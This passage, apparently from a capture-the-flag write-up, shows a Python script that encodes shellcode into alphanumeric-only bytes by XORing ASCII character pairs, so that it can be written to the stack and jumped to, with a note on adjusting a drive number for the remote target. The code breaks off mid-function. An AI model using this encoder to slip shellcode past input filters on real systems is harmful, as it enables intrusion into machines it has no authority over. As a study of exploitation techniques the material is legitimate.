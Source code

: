 And the packer code (to get the *"bad"* bytes into memory) can be observed below:

```python
#!/usr/bin/env python3
from string import ascii_letters,digits
import os

CHARSET = ascii_letters+digits

# TODO: If it is not working on remote, change drive from 
# 0x81 to 0x82

# 
# This code will generate non-alphanumeric shellcode from alphanumeric 
# shellcode (writing it to the stack, then jumping to it)
#

ZERO_EAX = "jXX4X"
FF_EAX = "jXX4XH"

with open("./expl.img","rb") as f:
    final_shellcode = f.read()

test_byte = 0xebe3 # First byte from back

'''
Since the highest bit is set, we can't construct 0xebe3 using only
the xor of two ASCII chars.
1. 0xffff ^ 0xebe3 => 0x141c
2. Finc ascii char combination that produces the above
Here:
`mr  ^ yn` works out to 0x141c

And then:
ff_eax
'''

def switchBytes(b):
    u = b >> 8
    l = b & 0xff
    f = (l << 8)|u
    return f

def template(target,zero):

    upper = (target >> 8 )& 0xff
    lower = target & 0xff

    up_pair = []
    lo_pair = []
    # Generate pair that generates target
    found = False
    for c1 in CHARSET:
        for c2 in CHARSET:
            if ord(c1) ^ ord(c2) == upper:
                up_pair.append(c1)
                up_pair.append(c2)
                found = True
                break
        if found:
            break

    found = False
    for c1 in CHARSET:
```
